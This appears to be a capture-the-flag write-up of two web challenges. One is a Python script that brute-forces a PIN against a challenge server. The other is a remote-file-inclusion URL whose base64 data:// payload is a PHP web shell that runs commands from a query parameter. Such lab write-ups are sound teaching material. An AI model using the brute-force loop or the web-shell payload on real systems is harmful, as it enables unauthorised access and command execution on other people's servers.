




# Web active

## Baby Logic Pincode

this challenge does not check the number of times so we can send as many times as we want, I did not see any change in the response so I relied on the length of the response to guess that the `flag` would appear, here is my script:

```python
import requests

URL = "http://103.97.125.56:31734/"

data = {
    "pin": f'',
}

for i in range(1000, 1501):
    data['pin'] = i
    print(f"Trying pin: {i}")
    res = requests.post(URL, data=data)
    if res.status_code == 200 and len(res.text) != 2878:
        print(f"Success with pin: {i}")
        break
    else:
        print(f"Failed with pin: {i}")
```

password is `1053`



---

## Remote File Inclusion

an interesting vulnerability about `RFI`, after I searched I found a way to `inject` remotely, the ways to transform data are almost `impossible`

```text
found : http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

at [here](https://github.com/payloadbox/rfi-lfi-payload-list)







---


